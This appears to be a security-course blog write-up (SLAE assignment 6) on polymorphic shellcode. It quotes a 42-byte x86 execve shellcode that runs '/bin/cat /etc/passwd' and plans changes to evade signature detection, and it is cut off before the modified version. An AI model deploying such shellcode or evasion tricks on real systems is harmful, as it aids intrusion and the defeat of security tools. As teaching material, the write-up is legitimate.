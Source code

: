 # Assignment 6 - Polymorphic Shellcode

So, I've been on a slight hiatus from the SLAE because my lab time for OSCE began right as I was finishing this up. So, I put this on pause to complete that. Don't worry, an OSCE write-up is coming :) But for now, let's finish out SLAE nice a strong. Today, we're going to look at morphing shellcode to break the signature detection that might catch it.

## Problem Statement

* Take up 3 shellcodes from [Shell-Storm](http://shell-storm.org) and create polymorphic versions of them to beat pattern matching
* The polymorphic versions cannot be larger than 150% of the existing shellcode
* Bonus points for making it shorter in length than the original


## Shellcode \#1

The first [shellcode](http://shell-storm.org/shellcode/files/shellcode-571.php) we'll take is a simple 42-byte shellcode that calls `/bin/cat /etc/passwd` via the `execve` system call.

**_original shellcode_**

```
xor eax,eax
cdq

push edx
push 0x7461632f
push 0x6e69622f
mov ebx,esp

push edx

push 0x64777373
push 0x61702f2f
push 0x6374652f
mov ecx,esp

mov al,0xb
push edx
push ecx
push ebx
mov ecx,esp
int 0x80
```

#### Modifications

Looking over this, we see some obvious things we could modify that would produce the same functionality using the same instructions. For example, `cdq` is being used here to clear the EDX register, but we could do the same with a special multiply call. EDX is also being used to push null values onto the stack, but we could use a different register. We could also change the order of some of the instructions, which would result in a different signature. Let's do all of this.
